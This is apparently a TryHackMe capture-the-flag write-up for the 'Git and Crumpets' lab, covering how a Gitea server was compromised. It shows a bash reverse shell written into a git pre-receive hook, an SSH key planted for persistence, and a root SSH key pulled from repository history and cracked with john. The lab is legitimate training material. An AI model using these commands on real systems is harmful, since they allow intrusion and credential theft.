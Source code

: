 ```yaml
---
layout: post
title:  "Git and Crumpets (THM)"
date:   2025-08-01 23:48:43 -0400
author: robo.uzi
tags: [CTF, TryHackMe]
---
```


Prompt: Our devs have been clamoring for some centralized version control, so the admin came through. Rumour has it that they included a few countermeasures...

## Initial Compromise

`nmap -p- -T5 -vv 10.10.230.35 -oN gitandfullnmap.txt`

`nmap -sVC -p 22,80 -vv -T4 10.10.230.35 -oN gitandnmap.txt`:
```shell
PORT     STATE  SERVICE    REASON       VERSION  
22/tcp   open   ssh        syn-ack      OpenSSH 8.0 (protocol 2.0)  
80/tcp   open   http       syn-ack      nginx
```

Visiting the http server redirects me to getting rick rolled...

I can't `curl` the site. Or run `gobuster` or `ffuf`. It got my ip banned and I had to restart the machine twice. Ok fine no brute forcing. At this point I install httpie with `sudo snap install httpie` so I can proxy the request through my terminal.

I run `http -v http://10.10.230.35` and am able to see the response:
```html
   <main>  
     <h1>Nothing to see here, move along</h1>  
     <h2>Notice:</h2>  
     <p>    
       Hey guys,  
          I set up the dev repos at git.git-and-crumpets.thm, but I haven't gotten around to setting up the DNS yet.    
          In the meantime, here's a fun video I found!  
       Hydra  
     </p>  
     <pre>
```

I add `git.git-and-crumpets.thm` to my `/etc/hosts` file.

Visiting `http://git.git-and-crumpets.thm/` I see a website advertising a self hosted Git service.

I register an account on the site and start looking around. Under the users tab I see other people:
```text
hydra
hydragyrum@example.com

root groot
root@example.com

scones
withcream@example.com

test
test@test.thm
```

In `http://git.git-and-crumpets.thm/scones/cant-touch-this/commits/branch/master` I find the hint `I kept the password in my avatar to be more secure.` from scones.

I download his avatar and see this: 
```shell
strings scones.png | grep Password  
My 'Password' should be easy enough to guess
```

I login with the credentials `...`. Now that Im logged into this account I can access a settings tab under scones repository. The user has access to git hooks. They are custom scripts that are executed when a certain trigger condition is met. Git allows two types of hooks: client side and server side hooks. `https://git-scm.com/book/en/v2/Customizing-Git-Git-Hooks`.

I go to the pre recieve git hooks at `http://git.git-and-crumpets.thm/scones/cant-touch-this/settings/hooks/git/pre-receive` and add the line `/bin/bash -i >& /dev/tcp/10.13.66.123/4444 0>&1`. I set my listener like this: `nc -lvnp 4444`.

By editing the `readme.md` I can trigger the RCE but some outgoing network connections are blocked. I get the message:
```shell
`./hooks/pre-receive.d/pre-receive: connect: Connection refused   
./hooks/pre-receive.d/pre-receive: line 24: /dev/tcp/10.13.66.123/4444: Connection refused`
```

If I edit the pre recieve git hook to contain `ping -c 3 10.13.66.123` I see this in the full rejection message:
```shell
`PING 10.13.66.123 (10.13.66.123) 56(84) bytes of data.   
64 bytes from 10.13.66.123: icmp_seq=1 ttl=61 time=215 ms   
64 bytes from 10.13.66.123: icmp_seq=2 ttl=61 time=212 ms   
64 bytes from 10.13.66.123: icmp_seq=3 ttl=61 time=216 ms      
--- 10.13.66.123 ping statistics ---   3 packets transmitted, 3 received, 0% packet loss, time 5ms   rtt min/avg/max/mdev = 212.456/214.595/215.957/1.622 ms   *** Project description file hasn't been set   error: hook declined to update refs/heads/master`
```

All traffic isnt blocked so I will change the port to a higher number and try that.

___

## Priv Esc

Setting it to port `41789` works. I get a reverse shell.

I fix my shell with:
```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
export TERM=xterm
```

I find `user.txt` in `/home/git`.

To use ssh I run `ssh-keygen -t rsa -b 2048 -f git_key`. I add `git_key.pub` to `authorized_keys` and ssh into the machine with `ssh git@10.10.230.35 -i git_key`.

I look for what the user `git` owns: `find / -xdev -user git 2> /dev/null`. 

I find `/var/lib/gitea` which is interesting.

In `/var/lib/gitea/data/gitea-repositories` I find that `root` does have a repository. 

Inside `/var/lib/gitea/data/gitea-repositories/root` I see `backup.git`. I run `git clone backup.git` and get a directory called backup.

Inside `backup` I run `git log --oneline -all`.

I see 4 entries:
```shell
c242a46 (origin/dotfiles) Add '.gitconfig'  
26f204c Delete file  
0b23539 Add '.ssh/Sup3rS3cur3'  
24dfc45 (HEAD -> master, origin/master, origin/HEAD) Initial commit
```

I run `git show 0b23539` and I am able to to steal an ssh key. I put it into a file and delete the `+` at the beginning of each line. The key has a passphrase on it so I download `ssh2john.py` from `https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py` and run `python3 ssh2john.py id_rsa > ssh.hash` then `/usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt ssh.hash`. After a while I give up on cracking it and think about generating my own wordlist or looking for hints. 

I try the name of the key and it works! I grab the `root.txt`, base64 decode it, and that's it.

___
